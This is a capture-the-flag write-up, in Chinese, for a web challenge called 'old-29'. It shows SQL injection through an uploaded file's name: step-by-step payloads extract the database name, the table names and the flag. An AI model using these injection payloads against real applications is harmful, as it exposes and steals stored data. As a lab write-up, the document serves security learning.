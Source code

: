 # old-29_400

* 這一題一進去有一個 upload file 的東東，於是隨便上傳了一個 php 的 file，內含 phpinfo()，但是沒什麼特別的事情發生，唯一有的就只有 time ip file 在相對應的位置而已
* 鑑於這一題考的是 sql injection，我們可控並且可能發生的地點應該就在 filename 的地方了。為了方便，用 burp suite 吧
* 說真的，這一題我是了很久，一直在猜到底哪裡是注入點
* 後來我得到了一些結論，首先，sql 語句中相對應的位置應該是 file, time, ip，file 沒什麼限制，time 限制只能是數字，ip 限定只能是自己的 ip，所以注入點就在 file 這件事應該是一目瞭然的，但是前面的語句要先截斷，只能在後面再增設一組了
* 知道了怎麼 inject 了，第一步要先知道資料庫的名稱，這是我的 payload `23',123,'your_ip_address'),((select schema_name from information_schema.schemata limit 1,1),123,'your_ip_address') -- ` 在 burp 中把 filename 改成這樣，就可以看到資料庫名了 `chall29`
* 接下來要知道的是表名，這是我的 payload 
    `23',123,'your_ip_address'),((select table_name from information_schema.tables where table_schema='chall29' limit 0,1),123,'your_ip_address') -- `
    可以發現爆出的表名是 `files`
    接下來稍微改一下
    `23',123,'your_ip_address'),((select table_name from information_schema.tables where table_schema='chall29' limit 1,1),123,'your_ip_address') -- `
    可以發現爆出了一個有趣的表名 `flag_congratz`
* 接下來就簡單拉，直接來
    `23',123,'your_ip_address'),((select * from flag_congratz limit 0,1)),123,'your_ip_address') -- `
    就可以成功的拿到 flag 拉
* flag : FLAG{didYouFeelConfused?_sorry:)}
